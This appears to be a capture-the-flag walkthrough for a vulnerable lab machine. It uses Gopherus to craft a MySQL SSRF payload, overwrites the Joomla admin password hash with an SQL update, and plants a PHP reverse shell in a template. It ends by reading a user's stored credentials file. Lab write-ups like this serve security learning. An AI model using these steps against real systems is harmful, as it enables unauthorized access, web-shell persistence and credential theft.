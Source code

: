 [Gopherus](https://github.com/tarunkant/Gopherus)

Command: git clone https://github.com/tarunkant/Gopherus.git

Command: python2 gopherus.py — exploit mysql

Let’s enter the data.

![Desktop View]({{ "/assets/img/vuln-harry-nagini/4.png" | relative_url }})

We get it after pasting it on the button.


![Desktop View]({{ "/assets/img/vuln-harry-nagini/5.png" | relative_url }})

Now we will get more detailed information.

![Desktop View]({{ "/assets/img/vuln-harry-nagini/6.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-harry-nagini/7.png" | relative_url }})

I tried to crack hash here. But i can’t. Therefore, I will check the update.

```console
Command: use joomla;update joomla_users set password=’5f4dcc3b5aa765d61d8327deb882cf99'where username=’site_admin’
```
Here is the password changed. Let’s log in as an administrator.

![Desktop View]({{ "/assets/img/vuln-harry-nagini/8.png" | relative_url }})

## Reverse shell

Get reverse shell

Extensions — >Templates — >Protostar — > New File

![Desktop View]({{ "/assets/img/vuln-harry-nagini/9.png" | relative_url }})

[ReverseShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Change your ip address and get a paste. Then go to this directory.

Url- http://yourip/joomla/templates/protostar/rev.php

After entering

Command: script /dev/null -c bash

Command: export TERM=xterm

## Snape

Command: cd /home/snape

Command: cat .creds.txt
